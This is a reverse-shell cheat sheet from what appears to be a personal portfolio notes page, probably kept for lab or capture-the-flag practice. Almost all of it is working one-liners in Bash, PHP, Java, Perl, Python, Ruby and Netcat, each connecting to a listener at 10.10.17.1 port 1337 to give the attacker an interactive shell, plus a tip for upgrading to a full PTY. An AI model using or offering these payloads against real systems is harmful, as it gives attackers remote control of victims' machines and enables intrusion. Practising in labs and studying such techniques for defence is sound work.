

repository: jh1h1h/portfolio · page: docs/general/Reverse Shell.html · generator: docusaurus

If victim is Linux, always run `python3 -c 'import pty; pty.spawn("/bin/bash")'` for interactive shell

## Bash reverse shell
`/bin/bash -i >& /dev/tcp/10.10.17.1/1337 0>&1`

## PHP reverse shell
`php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'`

If this does not work, you can try replacing &3 with consecutive file descriptors (idk what this mean)

## Java reverse shell
If the target machine uses Java, try the following simple example:

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.1/1337;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Perl reverse shell
```perl
perl -e 'use Socket;$i="10.10.17.1";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```

## Python reverse shell
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.17.1",1337));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

## Ruby reverse shell
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.17.1","1337");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

or

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.17.1",1337).to_i;
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat reverse shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.1 1337 >/tmp/f`
